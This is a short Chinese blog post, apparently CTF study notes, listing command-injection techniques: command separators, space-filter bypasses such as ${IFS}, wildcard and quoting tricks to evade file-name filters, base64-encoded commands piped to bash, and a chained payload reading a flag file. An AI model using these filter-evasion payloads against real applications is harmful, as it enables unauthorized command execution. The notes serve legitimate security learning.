 ```yaml
---
layout: post
title: 远程命令执行
subtitle: RCE
date: 2025-08-12 17:38
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
number headings: 
published: true
---
```

## 1. RCE 漏洞利用

### 1.1. 命令连接符

- `;`
- `|`、`||`
- `&`、`%26`、`&&`、`%26%26`
- `%0a`

### 1.2. 空格过滤绕过

- `${IFS}`、`$IFS`、`$IFS$9`
- `<` 、`>`、`<>`
- `%09`：相当于 `Tab`
- `{,}`：`{cat,flag.php}`

### 1.3. 文件名过滤绕过

- `??`：`cat flag??`
- `*`：`cat flag.*`
- 单引号、双引号：`cat fl""ag.p'h'p`
- `\`：`cat fl\ag.p\hp`

### 1.4. base64 编码绕过

```shell
# cat flag.php ==base64==> Y2F0IGZsYWcucGhw
echo Y2F0IGZsYWcucGhw | base64 -d | bash
$(echo Y2F0IGZsYWcucGhw | base64 -d)
`echo Y2F0IGZsYWcucGhw | base64 -d`
```

### 1.5. `cat` 命令过滤绕过

- `tac`
- `head`、`tail`
- `more`、`less`

### 1.6. 目录分隔符过滤绕过

**flag 在上级目录情况**

多个命令执行：先 cd 到上级目录再 cat 内容

```shell
;cd flag_is_here;cat flag.txt
```
